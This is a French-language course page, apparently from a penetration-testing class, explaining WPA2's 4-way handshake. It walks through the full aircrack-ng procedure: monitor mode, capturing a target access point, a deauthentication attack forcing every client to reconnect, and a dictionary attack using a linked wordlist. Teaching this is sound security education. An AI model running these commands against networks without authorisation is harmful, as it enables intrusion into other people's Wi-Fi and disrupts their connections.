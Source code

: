# Pénétration de réseau sans-fils

## Nature du réseau sans-fils

Le protocole 802.11 permet la communication entre appareils via les ondes radio. Les ondes radio voyagent librement dans l'air et peuvent être écoutées par n'importe quel appareil qui se trouve assez proche pour recevoir l'onde.

C'est pourquoi il a fallu avoir des protocoles de chiffrement des paquets d'informations envoyées, pour éliminer l'écoute illicite.

## Protocoles de sécurité

Il y a 3 protocoles de chiffrement des communications sans-fils :  
- WEP : Très insécure, utilise l'algorithme RC4  
- WPA : Utilise TKIP et est basé sur WEP  
- WPA2 : Utilise AES, jugé très sécuritaire, même aujourd'hui  

## WPA2 et l'échange en 4 étapes

WPA2 utilise un échange entre le point d'accès (_access point ou AP_) et le client en 4 étapes (_4-way handshake_). L'échange est pour prouver que AP et le client connaissent tous les deux la clé de chiffrement, sans divulguer la clé. Les deux parties chiffrent des messages pour l'autre avec la clé et lorsqu'ils déchiffrent le message de l'autre, ils ont la certitude que l'autre possède la clé.

![13-WPA2-4-way-handshake](../images/2020/06/13-wpa2-4-way-handshake.png)

1. L'AP envoie une valeur nonce (ANonce) au client. Le client se sert du nonce pour construire sa clé.
2. Le client envoie sa propre valeur nonce (SNonce) à l'AP et code d'intégrité de message (_MIC - Message Integrity Code_) qui inclus l'authentication.
3. L'AP construit et envoi le GTK (_Group Temporal Key_) ainsi que son MIC.
4. Le client envoi une confirmation à l'AP

Tout se passe en texte clair, il est donc possible d'écouter et de conserver dans un fichier PCAP pour faire un attaque par dictionnaire.

## Équipement requis

Pour pouvoir utiliser les outils dans Kali pour une attaque du réseau sans-fils, il faut un appareil de connectivité WIFI qui supporte les deux modes suivants :  
- Monitoring
- Injection de paquets (_packet injection_)

Ce ne sont pas toutes les cartes wifi qui supportent ces deux modes.

Voici le modèle utilisé dans ce cours :  

![13-Wireless-device](../images/2020/06/13-wireless-device.png)

## Configurer l'appareil WIFI  

Dans VirtualBox, changez les paramètres USB de la VM Kali.  

![13-VirtualBox-USB-Kali](../images/2020/08/13-virtualbox-usb-kali.png)  

1- Utiliser le contrôleur USB 3.0  
2- Ajouter un filtre USB  
3- Choisir Ralink  

## Aircrack-ng

Aircrack-ng est une suite d'outils pour écouter le réseau sans-fils, forcer la réauthentification et faire une attaque par dictionnaire.

### Mettre sa carte en mode monitoring

Arrêter tous les processus qui utilisent la carte wifi :  

`airmon-ng check kill`

Utiliser la commande airmon-ng pour démarrer le mode monitoring.

`airmon-ng start wlan0`

Le device s'appellera **wlan0mon**.

### Écouter les ondes

Écouter les ondes pour trouver l'AP à pénétrer.

`airodump-ng wlan0mon`

Trouvez votre AP et copiez le BSSID.  Notez aussi le canal (_channel_) utilisé par l'AP.

### Écouter les communications de l'AP  

Il faut maintenant écouter attentivement les communications entre les clients et l'AP ciblé.

`airodump-ng --bssid AA:AA:AA:AA:AA:AA -c 11 --write prefixe wlan0mon`  

Le monitoring est démarré. Il faut maintenant attendre qu'il y ait une authentification par un client.

### Forcer une authentification  

Dans une autre fenêtre de terminal, nous allons forcer l'authentification d'un client.

`aireplay-ng -0 0 -a AA:AA:AA:AA:AA:AA wlan0mon`

Ça force tous les clients à s'authentifier.

Une fois que vous voyez la mention "WPA Handshake" dans airodump-ng, vous pouvez arrêter les deux outils.

### Attaque par dictionnaire

Il faut maintenant attaquer le _handshake_ avec une liste de mots de passe. Une liste disponible sur Internet de plus de 64 millions de mots de passe se trouve ici :

[Crackstation](https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm)

Notez qu'utiliser cette liste peut prendre plus de 24 heures pour cracker le mot de passe du Wifi.

Pour démarrer l'attaque par dictionnaire :  

`aircrack-ng prefixe-01.cap -w mots_de_passe`  

Une fois l'outil terminé, nous avons la clé!

## Testez vos connaissances  

[Petit quiz sur la pénétration de réseau sans-fils](https://forms.office.com/r/C3TiPCCbRi)  
